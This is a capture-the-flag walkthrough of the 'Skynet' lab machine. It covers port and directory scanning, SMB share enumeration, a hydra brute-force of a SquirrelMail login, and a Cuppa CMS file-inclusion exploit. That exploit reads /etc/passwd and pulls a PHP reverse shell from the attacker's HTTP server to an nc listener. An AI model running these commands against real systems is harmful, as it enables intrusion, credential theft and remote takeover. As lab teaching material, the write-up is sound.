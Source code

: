 #Linux #SMB  # 

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed in the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!
* /server-status

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

**Searchsploit** suggests that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to Port 445/tcp - SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations (-a)

There are interesting results such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share.


```sh
  smbclient '\\10.10.48.162\anonymous'
  
  # If you need to enter share with a username
  smbclient -U milesdyson '\\10.10.246.55\milesdyson'
  
  ```
  
 We captured a number of log files -- one of which includes a password list for the email account: **milesdyson**. 
 
 Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
![image](https://user-images.githubusercontent.com/99097743/170764972-17fd4f81-db5a-40c1-862f-6014aa37ce7c.png)

We now have access to the email account!

![image](https://user-images.githubusercontent.com/99097743/170765416-03b102ff-c975-4637-a994-d061991061c4.png)

There is a Samba Password Reset email providing a new password. We can use the credentials to login the SMB share and see that there is a document, entitled important.txt. Here, it reveals the 'hidden directory'. Gobuster suggests that there is another hidden directry as /administrator, please see the figure below. 

![image](https://user-images.githubusercontent.com/99097743/170796322-835a1ab6-695b-442d-b8d6-5b48d7cfc906.png)

Now, let's go to **searchsploit** and search if there is any vulnerability documented for Cuppa CMS:

![image](https://user-images.githubusercontent.com/99097743/170797721-4e0caa91-3458-4107-b093-7957aedb4788.png)


```sh
  searchsploit -m php/webapps/25971.txt
  #VULNERABILITY: PHP CODE INJECTION
  An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
  
  # We basically include the following link:
  /alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
  
  so the full URL becomes:
  curl http://10.10.74.120/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

  ```

Now, we can work on the reverse shell:

STEP 1: Generate the Reverse Shell and save it on the local host (Here, it is called RS.php)

![image](https://user-images.githubusercontent.com/99097743/170798516-8239f698-5ea1-4fb9-9d05-7ad32868babe.png)


STEP 2: Open up an HTTP server to transfer the payload to the target machine

```sh
  sudo python3 -m http.server 80
  ```
  
STEP 3: Turn on the listener
```sh
sudo nc -lvnp 87
 ```

STEP 4: Modify the PHP Injection URL:

```sh
curl  http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.123.93:80/RS.php
  ```
  
STEP 5: Upload the PHP file from the localhost using the HTTP server and invoke the listener

Niceeee!! it works: 


This picture gives an overall summary of the steps followed:

![Screenshot 2022-05-27 191059](https://user-images.githubusercontent.com/99097743/170802509-703b2ac1-1a5c-4edc-a61e-c0b925793b0f.png)






Let's stabilize the shell!

